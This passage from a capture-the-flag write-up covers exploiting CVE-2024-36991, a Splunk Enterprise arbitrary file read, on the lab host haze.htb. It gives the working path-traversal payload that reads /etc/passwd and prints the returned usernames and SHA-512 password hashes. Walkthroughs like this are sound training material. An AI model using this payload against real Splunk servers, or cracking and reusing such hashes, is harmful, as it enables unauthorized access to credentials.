 ![](images/2025-03-29_20-27_8000_website.png)

## CVE-2024-36991: Splunk Enterprise Arbitrary File Read

A little bit of research brought `CVE-2024-36991` aka `Arbitrary File Read in Splunk Enterprise` into play.

- [https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads](https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads)

Mr. `mentats` grabbed the `Proof of Concept (PoC)` payload and therefore we were able to extract some `usernames` and `hashes`.

```console
en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd
```

- [http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd](http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd)

```console
:admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152 :edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152 :mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152 :paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152
```
